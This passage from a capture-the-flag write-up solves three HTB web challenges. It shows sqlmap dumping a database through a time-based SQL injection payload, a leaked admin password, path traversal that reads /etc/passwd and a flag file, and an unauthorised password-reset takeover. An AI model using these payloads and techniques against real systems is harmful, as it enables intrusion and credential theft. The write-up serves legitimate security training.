[19:29:00] [INFO] retrieved: 'TRAPPIST-1h'
[19:29:00] [INFO] retrieved: 'Boop'
[19:29:00] [INFO] retrieved: 'communication.mp3'
[19:29:00] [INFO] retrieved: '5'
[19:29:00] [INFO] retrieved: 'Jelly World Japes'
[19:29:01] [INFO] retrieved: 'Winky'
Database: orbital
Table: communication
[5 entries]
+----+-----------------------------+------------------+-------------+-------------------+
| id | name                        | source           | destination | downloadable      |
+----+-----------------------------+------------------+-------------+-------------------+
| 1  | Ice World Calling Red Giant | Titan            | Arcturus    | communication.mp3 |
| 2  | Spiral Arm Salutations      | Andromeda        | Vega        | communication.mp3 |
| 3  | Lone Star Linkup            | Proxima Centauri | Trappist-1  | communication.mp3 |
| 4  | Small World Symposium       | TRAPPIST-1h      | Kepler-438b | communication.mp3 |
| 5  | Jelly World Japes           | Winky            | Boop        | communication.mp3 |
+----+-----------------------------+------------------+-------------+-------------------+

[19:29:01] [INFO] table 'orbital.communication' dumped to CSV file '/home/kali/.local/share/sqlmap/output/68.183.45.143/dump/orbital/communication.csv'
[19:29:01] [WARNING] HTTP error codes detected during run:
403 (Forbidden) - 913 times, 500 (Internal Server Error) - 546 times
[19:29:01] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/68.183.45.143'

[*] ending @ 19:29:01 /2023-03-20/
```
Running sqlmap quickly picked up the proper payload to use for SQL injection. The payload utilized:
```
Payload: {"username":"admin" AND (SELECT 4429 FROM (SELECT(SLEEP(5)))Llei)-- Mhzj","password":"password"}
```
And fortunately with this, sqlmap is able to grab admin's password from the database. The login credentials are as follows:
```
{"username":"admin","password":"ichliebedich"}
```
Using these credentials gets us in.

Now that we are in, we can see a lot of static information on this page but no flag in plain sight. At the bottom of the page, we see an export option that will prompt us to download a `communication.mp3` file. We saw some information on an export page in the source code, so let's revisit this to get a better idea on what's going on.
In blueprints/test.py:
```
def exportFile():
    if not request.is_json:
        return response('Invalid JSON!'), 400
    
    data = request.get_json()
    communicationName = data.get('name', '')

    try:
        # Everyone is saying I should escape specific characters in the filename. I don't know why.
        return send_file(f'/communications/{communicationName}', as_attachment=True)
    except:
        return response('Unable to retrieve the communication'), 400
```
We see there is a lack of sanitization on how it is grabbing the file to export. If we can edit the file name we are requesting, we can perform directory traversal to grab any file that is not read-protected. To check this, we will look for the always-readable /etc/passwd.
In burpsuite:
Request


Response


We see the contents of /etc/passwd. Now all that remains is to find the flag.
After making several guesses on where the flag might be located, we have yet to find the flag. Back to the source code, perhaps we can see how it is being placed upon initialization by viewing the Dockerfile:
```
$ cat Dockerfile        
FROM python:3.8-alpine

# Install packages
RUN apk add --no-cache --update mariadb mariadb-client supervisor gcc musl-dev mariadb-connector-c-dev

# Upgrade pip
RUN python -m pip install --upgrade pip

# Install dependencies
RUN pip install Flask flask_mysqldb pyjwt colorama

# Setup app
RUN mkdir -p /app
RUN mkdir -p /communication

# Switch working environment
WORKDIR /app

# Add application
COPY challenge .

# Setup supervisor
COPY config/supervisord.conf /etc/supervisord.conf

# Expose port the server is reachable on
EXPOSE 1337

# Disable pycache
ENV PYTHONDONTWRITEBYTECODE=1

# copy flag
COPY flag.txt /signal_sleuth_firmware
COPY files /communications/

# create database and start supervisord
COPY --chown=root entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh
ENTRYPOINT ["/entrypoint.sh"]
```
They did indeed pull a cheeky one on us, note how the flag.txt has been renamed! In this machine it's now called `signal_sleuth_firmware`
In Burpsuite:
Request:



Response:



Flag `HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}`

### Passman
>Pandora discovered the presence of a mole within the ministry. To proceed with caution, she must obtain the master control password for the ministry, which is stored in a password manager. Can you hack into the password manager?
__Difficulty: easy__
---
Visiting the page we are greeted with a login page. We are also presented with the option to create an account. After guessing a few times for user admin, I decide to create a user. Trying username `admin` results in an error, telling us this username is in use. Good to note; for now we will create user `a`.
Registering as user a was successful, and now we see a page where we might submit and store passwords for given addresses. This page operates as a password manager, true to the challenge description and title. A brief check at XSS fails, so let's explore the provided source code.
Interestingly, the `database.js` file shows us more request options than we might have expected. In particular, there is an option to update passwords:
```
    async updatePassword(username, password) {
        return new Promise(async (resolve, reject) => {
            let stmt = `UPDATE users SET password = ? WHERE username = ?`;
            this.connection.query(
                stmt,
                [
                    String(password),
                    String(username)
                ],
                (err, _) => {
                    if(err)
                        reject(err)
                    resolve();
                            }
            )
        });
    }
```
There is no authorization verification here, so perhaps if we can request to change the password of user admin, we can login as admin.
Starting with a post request to register a new user:


Revised post request:


Response:


We have updated the admin password successfully, or so it says. When we attempt to login as admin, we are successful! The flag is given in the password field of admin's saved passwords.


`HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}`

### Trapped Source
>Intergalactic Ministry of Spies tested Pandora's movement and intelligence abilities. She found herself locked in a room with no apparent means of escape. Her task was to unlock the door and make her way out. Can you help her in opening the door?
__Difficutly: very easy__
----------
Upon visiting the given address, we see a locked keypad:


There is not much going on with the page, so we can check the page source with CTRL+U.

In the source code, we see the correct pin:
```
<body>
	<script>
		window.CONFIG = window.CONFIG || {
			buildNumber: "v20190816",
			debug: false,
			modelName: "Valencia",
			correctPin: "8291",
		}
	</script>
```
Just like that, the flag is given:



However, we cannot highlight for easy copy paste. We will inspect the object. Right clicking over the flag, we can Inspect, and the flag is in text:


From here we can right click and "copy inner HTML". Now we have the flag to paste easy, and guaranteed free from spelling errors.

`HTB{V13w_50urc3_c4n_b3_u53ful!!!}`
